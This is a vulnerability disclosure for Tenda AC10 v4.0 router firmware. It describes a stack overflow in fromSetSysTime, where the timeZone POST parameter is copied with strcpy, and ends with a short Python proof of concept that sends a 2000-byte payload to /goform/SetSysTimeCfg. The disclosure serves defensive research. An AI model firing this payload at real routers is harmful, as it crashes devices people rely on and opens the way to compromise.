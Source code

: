 ## Overview

- Manufacturer's website information：https://www.tenda.com.cn/

- Firmware download website: https://www.tenda.com.cn/download/detail-3506.html、https://www.tenda.com.cn/download/detail-3684.html

## Affected version

AC10 v4.0 V16.03.10.13、V16.03.10.20

## Vulnerability details

The Tenda AC10 v4.0 V16.03.10.13 firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `v5` variable receives the `timeType` parameter from a POST request and we let `v5=="sync"` to execute function `sub_4A75C0`. 

![image-20240316230222799](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316230222799.png)

The `s` variable receives the `timeZone` parameter from a POST request. However, since the user can control the input of `timeZone`, the statement `strcpy((char *)v6, s);` can cause a buffer overflow. The user-provided  `timeZone` can exceed the capacity of the `v6` array, triggering this security vulnerability.

![image-20240316230530806](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316230530806.png)

![image-20240316230359899](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316230359899.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'sync',
        'timeZone':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316230737905](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316230737905.png)

